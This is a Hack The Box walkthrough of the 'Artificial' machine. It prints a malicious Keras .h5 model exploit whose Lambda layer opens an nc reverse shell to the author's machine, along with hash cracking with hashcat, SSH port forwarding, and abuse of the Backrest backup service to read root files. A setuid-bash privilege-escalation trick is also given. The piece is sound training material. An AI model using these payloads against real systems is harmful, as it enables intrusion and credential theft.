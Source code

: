 ```yaml
---
title: Artificial - HTB
date: 2025-06-26 01:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux , File-Upload , Service-Abuse ]
toc: true
comments: true
image: ./assets/img/attachments/Artificial-1.png
imageNameKey: Artificial
---
```

Hey Everyone! Today I'm going to demonstrate how I pwned Artificial machine from hack the box, it's 7/1000 write-up. Lets goo!
## Port Enumeration
lets see what we have open for this ip:
```bash
sudo nmap -sS 10.10.11.74 -F -Pn -A
```
I started with -F to speed the process, then will run -p-
```bash
Nmap scan report for 10.10.11.74
Host is up (0.43s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   390.30 ms 10.10.16.1
2   199.20 ms 10.10.11.74
                                                                 
```
note: -p- didn't show anything new

I will check the website running on port 80 until full port enumeration is done.
After taking a close look on this web app, and creating an account, there was a requirements file at the upload section
![](/assets/img/attachments/Artificial.png)
```
Please ensure these requirements are installed when building your model, or use our Dockerfile to build the needed environment with ease.
```

So we need an .h5 file with this requirements, we have two options:
	1- either to use this tensorflow version
	2- or to use the docker file downloaded from this web page
	
![](/assets/img/attachments/Artificial-2.png)
building this docker
```bash
sudo docker build -t my-tf-container .
```
![](/assets/img/attachments/Artificial-3.png)

to be able to mount codes from the directory of my host:
```bash
sudo docker run -it -v $(pwd):/code my-tf-container
```

We will use this code to trigger a reverse shell. Why does this work?  
The web application allows users to upload `.h5` files without any validation. These files are based on the HDF5 format and can contain embedded Python objects. Keras uses `pickle` internally to deserialize custom objects when loading these model files. And by  including a malicious pickled object in the `.h5` file, it will lead to Remote Code Execution (RCE) during deserialization.
## Initial Access
I tried several codes with the help of ChatGPT but didn't trigger the reverse shell, but this one did 
[exploit code from github](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.66 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
![](/assets/img/attachments/Artificial-4.png)
Now after uploading this file and triggering it by `view predicitons` (Which the run_model endpoint)
RCE was triggered and we got the reverse shell!
![](/assets/img/attachments/Artificial-5.png)
## Lateral Movement
with more digging in those directories
![](/assets/img/attachments/Artificial-6.png)

I downloaded this file to my machine by 
```bash
python3 -m http.server (victim)
curl http://10.10.11.74:8000/users.db --output users.db (my machine)
```
Its sqlite file
![](/assets/img/attachments/Artificial-7.png)

Since there are multiple users, and to avoid wasting time, we can focus on the initial access we already have. In the `/home` directory, we find two user folders: `app` (which is our current user) and `geal`
lets try to crack geal pass
```bash
hashcat -m 0 c99175974b6e192936d97224638a34f8 /usr/share/wordlists/rockyou.txt
```
![](/assets/img/attachments/Artificial-8.png)
And got the password!
And i logged in as gael using ssh!
## Service Abuse
Then I ran linpeas, I didn't get any direct exploits, but active ports catches my eyes
![](/assets/img/attachments/Artificial-9.png)

port 5000 runs artificial.htb locally but what's on 9898?
using this command for port forwarding

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

![](/assets/img/attachments/Artificial-10.png)
There's this service running, but it has no direct public exploits. So the question here is: **what is this service?**

Running `backrest -h` reveals that it's a binary named `backrest` that exposes several command-line flags. This helped confirm that the service is **Backrest**, a web-based UI wrapper for the `restic` backup tool. It's intended to manage and automate backups in a self-hosted environment. It supports multiple repository backends — such as local storage, SFTP, S3, B2, and others supported by `restic` — and allows users to configure and schedule backups directly from the web interface.
since its a backup tool, i went back to linpeas output
![](/assets/img/attachments/Artificial-11.png)
There's backrest backup file!
I couldn't extract its content although i have read permission on it, because tar is recreating a folder to insert the uncompressed content in it and i don't have permissions to mkdir in this directory!
I transferred the file to my machine using http server, or u can copy it to geal user folder and uncompressed it there
In config.json:
![](/assets/img/attachments/Artificial-12.png)
we have bcrypt hash password which base 64 encoded

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```
To find hashcat mode
```bash
hashcat -h | grep bcrypt
```
and got the password using hashcat
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -a 0
```
logging in with this user
I created Restic repo
![](/assets/img/attachments/Artificial-13.png)

Then from running help command in Run Command option it was clear that i can backup any file (this service runs with root permission)
The easy way is to get the root flag and we can do the same to get root priv ssh key
![](/assets/img/attachments/Artificial-14.png)
![](/assets/img/attachments/Artificial-15.png)
We need the id 60... to be used with dump command
![](/assets/img/attachments/Artificial-16.png)
And to get ssh key
![](/assets/img/attachments/Artificial-17.png)
![](/assets/img/attachments/Artificial-18.png)
And ROOTED!!
## Extra Tip
I saw another neat root method where someone abused the `--restic-cmd` flag and used an environment variable like `RESTIC_PASSWORD_COMMAND='/bin/chmod +s /bin/bash'` to make bash setuid and get root — definitely a clever trick.
![](/assets/img/attachments/Artificial-19.png)
